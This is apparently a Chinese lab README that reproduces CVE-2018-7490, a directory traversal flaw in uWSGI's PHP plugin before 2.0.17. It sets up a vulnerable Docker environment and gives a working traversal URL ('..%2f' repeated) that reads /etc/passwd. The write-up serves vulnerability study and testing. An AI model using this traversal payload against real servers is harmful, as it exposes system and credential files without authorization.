


# uWSGI PHP目录穿越漏洞 CVE-2018-7490

## 漏洞描述

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

## 环境搭建

运行存在漏洞的uWSGI服务器：

```
docker-compose up -d
```

运行完成后，访问`http://your-ip:8080/index.php`即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。



## 漏洞复现

访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：



